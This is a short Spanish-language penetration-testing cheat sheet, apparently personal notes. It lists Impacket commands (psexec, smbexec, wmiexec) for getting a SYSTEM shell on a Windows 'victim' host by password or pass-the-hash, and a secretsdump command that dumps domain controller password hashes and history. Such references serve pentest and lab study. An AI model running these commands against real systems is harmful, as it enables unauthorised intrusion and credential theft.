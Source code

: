 # Psexec

Tags: #Windows #DC #PsExec #WmiExec #SmbExec #Impacket 

```bash 
- Puerto 445 (SMB): Necesario para la ejecución remota de comandos utilizando el protocolo SMB.
- Puerto 135 (RPC): Puede ser necesario para la autenticación remota y la gestión de las conexiones.
```

## Impacket-Psexec

```powershell
# Ingresar con una consola 'CMD' al usuario 'NT Authority\System'
❯ impacket-psexec domain.corp/Administrator:Password@IP cmd.exe     


❯ impacket-psexec administrator@IP cmd.exe      

	# user = Usuario Administrator'
	# IP = Dirección IP de la maquina víctima 
	# cmd = Ejecuta una consola 'CMD' al ingresar

❯ impacket-psexec domain.corp/'Administrator'@IP -hashes HASH :NT    # Hacer 'PtH' e ingresar a un 'CMD'

❯ impacket-psexec <Domain>/<User>:<Passwd>@<IP> cmd.exe  # Ingresar con una consola 'CMD'
```

## Impacket-Smbexec

```bash 
❯ impacket-smbexec.py administrator@IP -hashes LM:NT     # Podemos utilizar el metodo 'Pass-The-Hash' para ingresar como 'NT Authority\System'
```

## Impacket-Wmiexec 

```bash 
Otra herramienta por si no funcion 'PsExec'
❯ impacket-wmiexec.py administrator@IP -hashes LM:NT     # Podemos utilizar el metodo 'Pass-The-Hash' para ingresar como usuario admin 
```

## Impacket-SecretDump

```bash 
❯ impacket-secretdump -just-dc <Domain>/<User>:<Passwd>@<IP> -history -pwd-last-set   # Muestra el historial y cuando fue configurada la última contraseña
```